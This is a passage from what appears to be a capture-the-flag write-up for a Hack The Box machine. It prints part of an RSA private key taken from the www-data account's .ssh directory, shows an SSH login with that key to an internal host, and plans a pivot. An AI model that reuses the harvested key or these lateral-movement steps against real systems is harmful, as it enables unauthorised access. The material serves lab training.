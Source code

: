 ```console
VKmls3lsod8ilakdDoYEYt12L4ST/exEoVl0AyD9y8m651q40k1Gz4WzPnaHAlnj
mL6CANfiNAJoc8WnqZN5ruSrWhmivmDbKLlDCO5bCCzi2zMHJKqQkcBxdWk60Qhi
17UJMV3mKVQRprvpeTR2jCMykH81n2KU46doSQIDAQABAoIBAADCHxWtkOhW2uQA
cw2T91N3I86QJLiljb8rw8sj17nz4kOAUyhTKbdQ102pcWkqdCcCuA6TrYhkmMjl
pXvxXAvJKXD3dkZeTNohEL4Dz8mSjuJqPi9JDWo6FHrTL9Vg26ctIkiUChou2qZ9
ySAWqCO2h3NvVMpsKBwjHU858+TASlo4j03FJOdmROmUelcqmRimWxgneHBAHEZj
GqDuPjmPmw7pbThqlETyosrbaB3rROzUp9CKAHzYB1BvOTImDsb6qQ+GdKwewAQf
j60myPuxl4qgY8O2yqLFUH3/ovtPTKqHJSUFBO23wzS1qPLupzu1GVXwlsdlhRWA
Amvx+AECgYEA6OOd9dgqXR/vBaxDngWB6ToVysWDjO+QsjO4OpFo7AvGhMRR+WpK
qbZyJG1iQB0nlAHgYHEFj4It9iI6NCdTkKyg2UzZJMKJgErfgI0Svkh/Kdls23Ny
gxpacxW3d2RlyAv4m2hG4n82+DsoPcN+6KxqGRQxWywXtsBsYkRb+wkCgYEA53jg
+1CfGEH/N2TptK2CCUGB28X1eL0wDs83RsU7Nbz2ASVQj8K0MlVzR9CRCY5y6jcq
te1YYDiuFvT+17ENSe5fDtNiF1LEDfp45K6s4YU79DMp6Ot84c2fBDIh8ogH0D7C
CFdjXCI3SIlvc8miyivjRHoyJYJz/cO94DsTE0ECgYA1HlWVEWz4OKRoAtaZYGA1
Ng5qZYqPxsSWIL3QfgIUdMse1ThtTxUgiICYVmqmfP/d/l+TH7RI+0RIc54a7y1c
PkOhzKlqfQSnwmwgAg1YYWi/vtvZYgeoZ4Zh4X4rOTcN3c0ihTJFzwZWsAeJruFv
aIP6nGR1iyUNhe4yq6zfIQKBgANYQNAA2zurgHeZcrMUqsNdefXmB2UGPtKH9gGE
yhU9tMRReLeLFbWAfJj2D5J2x3xQ7cIROuyxBPr58VDGky2VTzRUo584p/KXwvVy
/LaJiVM/BgUCmhxdL0YNP2ZUxuAgeAdM0/e52time8DNkhefyLntlhnqp6hsEqtR
zzXBAoGBANB6Wdk/X3riJ50Bia9Ai7/rdXUpAa2B4pXARnP1/tw7krfPM/SCMABe
sjZU9eeOecWbg+B6RWQTNcxo/cRjMpxd5hRaANYhcFXGuxcg1N3nszhWDpHIpGr+
s5Mwc3oopgv6gMmetHMr0mcGz6OR9KsH8FvW1y+DYY3tUdgx0gau
-----END RSA PRIVATE KEY-----
www-data@web:/home/www-data/.ssh$ 
```

```console
elpollon@elpollon:~/HTB/Static/content$ chmod 600 id_rsa
elpollon@elpollon:~/HTB/Static/content$ ssh -i id_rsa www-data@172.20.0.10
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.19.0-17-amd64 x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Last login: Mon Jun 14 08:00:30 2021 from 10.10.14.4
www-data@web:~$ 
```

The root flag seems to not be in **web** host so it seems that a pivoting to other host will be necessary to escalate privileges. Let's check the web application on **/var/www/html/vpn**.

```console
www-data@web:~$ ls -l /var/www/html/vpn
total 28
-rw-r--r-- 1 root root  206 Mar 26  2020 actions.php
-rw-r--r-- 1 root root   94 Apr  5  2020 database.php
-rw-r--r-- 1 root root  121 Apr  6  2020 header.php
-rw-r--r-- 1 root root  160 Mar 26  2020 index.php
-rw-r--r-- 1 root root 2048 Jun 17  2020 login.php
-rw-r--r-- 1 root root 1457 Apr  6  2020 panel.php
drwxr-xr-x 2 root root 4096 Mar 25  2020 src
```
